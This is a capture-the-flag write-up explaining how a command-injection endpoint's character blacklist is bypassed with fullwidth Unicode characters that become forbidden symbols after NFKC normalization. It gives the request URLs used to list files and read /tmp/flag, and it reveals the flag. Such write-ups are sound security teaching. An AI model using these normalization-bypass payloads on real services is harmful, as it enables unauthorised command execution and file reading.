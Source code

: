 ## Solve:

- [ ] Set of blacklisted characters (not allowed) <br>
  <sup>```blacklist = ["~","!","@","#","$","%","^","&","*","(",")","_","-","+","{","}","]","[","|","\\","|",";",",",".","<",">","?","/","`",":","\""]```</sup>

<br>

- [ ] If the characters introduced are not in the blacklist, the command given is **normalized** <br>
  ```norm = unicodedata.normalize("NFKC", cmd)```

<br>

- [ ] We can request regular commands, but in order to get the flag we need to bypass the blacklist. <br>
    We do this by using special characters in **Unicode** that are the equivalent of normal characters after **normalization**. <br>
    We see some examples here: https://lazarv.com/posts/unicode-normalization-vulnerabilities/

<br>

- [ ] After a series of commands, we find out where is the flag
  ```bash
  http://206.189.59.199:8004/backdoor?cmd=ls 
  http://206.189.59.199:8004/backdoor?cmd=cat%20%EF%B9%A1
  ```
  ![asterix](https://user-images.githubusercontent.com/93029180/208316737-a87ab1f1-678d-47ba-b01b-557a2ca9a6e6.png)
  
  Hint says the flag is temporary (in `tmp` directory)
  ```bash
  http://206.189.59.199:8004/backdoor?cmd=cat%20%EF%B9%A1
  http://206.189.59.199:8004/backdoor?cmd=cat%20%EF%BC%8Ftmp%EF%BC%8Fflag%EF%B9%A1
  ```
  ![flag](https://user-images.githubusercontent.com/93029180/208316828-d7dce247-f3f2-4a5e-a48e-2d30d207acb9.png)

<br>

## Flag:
`flag{normalizing_the_input_4_the_bypass}`
